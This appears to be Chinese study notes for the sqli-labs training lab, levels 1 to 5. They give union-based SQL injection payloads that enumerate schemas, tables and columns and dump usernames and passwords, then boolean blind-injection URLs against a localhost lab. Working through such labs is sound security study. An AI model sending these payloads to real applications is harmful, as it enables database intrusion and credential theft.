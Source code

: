 

### 爆数据库

`union select 1,group_concat(schema_name),3 from information_schema.schemata--+`

### 爆数据库security的表

`union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+`

### 爆users表的列

`union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users'--+`

### 爆数据

`union select id,group_concat(username),group_concat(password) from security.users--+`

或

`union select id,group_concat(username),group_concat(password) from security.users where id=2--+`

sqllab的less1-4都是这样

## Less5  盲注

这关是盲注，只有显示或不显示，比如：

`http://localhost/sql/Less-5/?id=1' and left(version(),1)=5--+`

`http://localhost/sql/Less-5/?id=1' and length(database())=8--+`

以上判断版本的第一位和数据库长度都是正确的。

### 1）使用left(database(),1)尝试

**猜数据库第一位：**

可以用二分来一直找：找到是s

`http://localhost/sql/Less-5/?id=1' and left(database(),1) ='s'--+`

**猜数据库第二位：**

判断第二位是否大于a：

`http://localhost/sql/Less-5/?id=1' and left(database(),2) >'sa'--+`

同样，可以找到后面的。。。

### 2）使用substr() ascii()尝试

`http://localhost/sql/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+`

同样可以使用二分，这里是email，e为101。
